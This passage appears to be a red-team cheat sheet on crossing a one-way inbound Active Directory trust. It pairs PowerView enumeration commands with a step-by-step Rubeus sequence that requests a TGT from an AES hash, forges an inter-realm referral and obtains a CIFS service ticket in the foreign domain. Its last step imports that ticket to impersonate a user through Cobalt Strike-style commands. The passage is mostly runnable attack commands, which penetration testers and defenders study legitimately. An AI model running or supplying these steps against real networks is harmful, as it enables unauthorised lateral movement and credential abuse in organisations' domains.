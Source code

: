 #### One-Way (Inbound)

```
powershell Get-DomainTrust

SourceName      : child.test.local
TargetName      : test.external
TrustType       : WINDOWS-ACTIVE_DIRECTORY
TrustAttributes : 
TrustDirection  : Inbound
```

Because the trust is inbound from our perspective, it means that principals in our domain can be granted access to resources in the foreign domain. We can enumerate the foreign domain across the trust.

```
powershell Get-DomainComputer -Domain test.external -Properties DNSHostName

dnshostname           
-----------           
dc.test.external
```

Look for Foreign groups and return the members

```
powershell Get-DomainForeignGroupMember -Domain test.external
```

To hop the trust, we need to impersonate a member of this domain group.

If you only have the user's RC4/AES keys, we can still request Kerberos tickets with Rubeus but it's more involved. We need an inter-realm key which Rubeus won't produce for us automatically, so we have to do it manually.

First, we need a TGT for the principal in question. This TGT will come from the current domain.

```
execute-assembly C:\Tools\Rubeus\Rubeus.exe asktgt /user:<USER> /domain:child.test.local /aes256:<AES HASH> /opsec /nowrap
```

Next, request a referral ticket from the current domain, for the target domain.

```
execute-assembly C:\Tools\Rubeus\Rubeus.exe asktgs /service:krbtgt/test.external /domain:child.test.local /dc:dc.child.test.local /ticket: ... /nowrap
```

Finally, use this inter-realm TGT to request a TGS in the target domain.

```
 execute-assembly C:\Tools\Rubeus\Rubeus.exe asktgs /service:cifs/dc.test.external /domain:dc.test.external /dc:dc.test.external /ticket: ... /nowrap
```

Create a sacrificial logon session and import the ticket.

```
make_token TEST\USER password

kerberos_ticket_use C:\Users\Administrator\Desktop\one-way-inbound.kirbi
```
